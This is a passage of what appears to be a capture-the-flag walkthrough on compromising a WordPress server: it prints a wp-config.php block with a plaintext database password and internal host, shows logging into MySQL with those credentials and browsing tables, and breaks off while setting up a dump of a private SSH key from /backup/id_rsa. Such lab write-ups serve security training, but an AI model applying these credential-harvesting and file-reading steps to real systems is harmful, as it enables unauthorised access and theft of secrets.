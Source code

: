 ```PHP
require_once( ABSPATH . 'wp-settings.php' );
```

 Thankfully we only care about ONE section of this

```NMA

	// ** MySQL settings - You can get this info from your web host ** //
	/** The name of the database for WordPress */
	define('DB_NAME', 'wordpress');
	
	/** MySQL database username */
	define('DB_USER', 'wordpress');
	
	/** MySQL database password */
	define('DB_PASSWORD', '0NYa6PBH52y86C');
	
	/** MySQL hostname */
	define('DB_HOST', '172.30.0.2');

```

Check it out! There is the database login!

4. Lets log into the server

	```NMA
	mysql -u wordpress -p -h 172.30.0.2

	NOTES:
	-u is the wordpress user
	-p is the password (0NYa6PBH52y86C)
	-h is the host which is 172.30.0.2
	```
5. Once logged in using the credentials we should poke around a bit. We know that the wp instance uses the Wordpress database which we can select as our database too. 

	```
	use wordpress; #; is very important here
	```
	 And now lets see the tables we are working with

	```
	show tables;
	```
	Once we look around for a few minutes we can see that `wp_links` is empty

	```
	select * from wp_links;

	Output:
	Empty set (0.08 sec)
	```

	This seems like a good place to dump the contents of a file (hint hint)
6. We were given that the ssh key was in `/backup/id_rsa` which we can actually dump the contents of that file into `wp_links`
